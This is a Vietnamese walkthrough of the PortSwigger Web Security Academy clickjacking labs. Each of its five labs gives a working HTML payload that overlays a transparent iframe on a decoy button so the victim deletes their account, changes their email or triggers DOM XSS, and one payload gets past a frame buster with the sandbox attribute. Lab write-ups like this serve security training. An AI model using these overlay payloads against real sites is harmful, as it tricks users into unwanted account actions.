










# Clickjacking là gì
Clickjacking là một hình thức tấn công dựa trên giao diện, trong đó người dùng bị lừa nhấp vào nội dung có thể tương tác trên một trang web ẩn bằng cách nhấp vào nội dung khác trên một trang web giả mạo.

### Clickjacking xảy ra khi Website cho phép nó được nhúng bên trong `<iframe>` của website khác

### Cách phòng tránh:
1. Chỉ cho phép 1 origin cụ thể
2. Không cho phép trang nhúng iframe 

# __Lab: Basic clickjacking with CSRF token protection__
Access Lab, đăng nhập bằng tài khoản được cung cấp wiener:peter. Để hoàn thành được bài lab thì cần khiến cho tài khoản `victim` bị xóa.

Sử dụng payload HTML:
```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```
để gắn vào body của exploit server. Sửa đổi các giá trị của 
1. `width`: độ rộng
2. `height`: độ cao
3. `opacity`: mức độ mờ
4. `top`: độ cao của decoy action
5. `left`: chênh lệc trái/phải của decoy action

Sao cho vị trí decoy trùng với vị trí của nút delete(sử dụng view exploit để căn chỉnh)



Lưu và gửi đến victim để hoàn thành bài lab




# __Lab: Clickjacking with form input data prefilled from a URL parameter__
Access Lab, đăng nhập bằng tài khoản được cung cấp wiener:peter. Để hoàn thành được bài lab thì cần khiến cho tài khoản `victim` bị đổi email.

Sử dụng payload HTML:
```html
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 1000px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:460px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ae500bb03bb91f2801c039100430033.web-security-academy.net/my-account?email=1@2.3"></iframe>
```
Sao cho vị trí decoy trùng với vị trí của nút updat email(sử dụng view exploit để căn chỉnh)



Lưu và gửi đến victim để hoàn thành bài lab




# __Lab: Clickjacking with a frame buster script__
Access Lab, đăng nhập bằng tài khoản được cung cấp wiener:peter. Để hoàn thành được bài lab thì cần khiến cho tài khoản `victim` bị đổi email.

Một số trang web yêu cầu điền và gửi biểu mẫu cho phép điền trước các trường nhập liệu bằng tham số GET trước khi gửi. Các trang web khác có thể yêu cầu nhập văn bản trước khi gửi biểu mẫu.



Sao cho vị trí decoy trùng với vị trí của nút updat email(sử dụng view exploit để căn chỉnh)

Sử dụng payload HTML:
```html
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 1000px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:460px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a9f001c0333fddf80dbb7b1003500f0.web-security-academy.net/my-account?email=1@2.3"></iframe>
```
Lưu và gửi đến victim để hoàn thành bài lab




# __Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS__
Access Lab, đăng nhập bằng tài khoản được cung cấp wiener:peter. Để hoàn thành được bài lab thì cần khiến cho tài khoản `victim` Click vào button ảo và gọi hàm `print()`.

Nhận thấy ứng dụng có giao diện `feedbacks` sử dụng payload HTML:
```html
<style>
	iframe {
		position:relative;
		width:1000px;
		height: 1000px;
		opacity: 0.1;
		z-index: 2;
	}
	div {
		position:absolute;
		top:810px;
		left:50px;
		z-index: 1;
	}
</style>
<div>Click me</div>
<iframe
src="https://0a9100d30383621d8624a4f3001a0060.web-security-academy.net/feedback?name=&email=1@2.3&subject=test&message=test#feedbackResult"></iframe>
```
Sao cho vị trí decoy trùng với vị trí của nút delete(sử dụng view exploit để căn chỉnh)



Lưu và gửi đến victim để hoàn thành bài lab




# __Lab: Multistep clickjacking__
Access Lab, đăng nhập bằng tài khoản được cung cấp wiener:peter. Để hoàn thành được bài lab thì cần khiến cho tài khoản `victim` bị xóa.

Kẻ tấn công có thể thao túng các dữ liệu đầu vào trên trang web mục tiêu bằng nhiều thao tác khác nhau. Ví dụ, kẻ tấn công có thể muốn lừa người dùng mua hàng trên trang web bán lẻ, vì vậy người dùng cần thêm sản phẩm vào giỏ hàng trước khi đặt hàng. Kẻ tấn công có thể thực hiện các thao tác này bằng cách sử dụng nhiều thẻ div hoặc iframe. Ở lab này khi xóa account cần thêm xác thực rằng thực sự muốn xóa tài khoản
Sử dụng payload HTML:
```html
<style>
	iframe {
		position:relative;
		width:1000px;
		height: 1000px;
		opacity: 0.1;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:520px;
		left:60px;
		z-index: 1;
	}
   .secondClick {
		top:310px;
		left:225px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a4b00f60317b1d680e60d03005f002c.web-security-academy.net/my-account"></iframe>
```

Sao cho vị trí decoy trùng với vị trí của nút updat email(sử dụng view exploit để căn chỉnh)



Lưu và gửi đến victim để hoàn thành bài lab

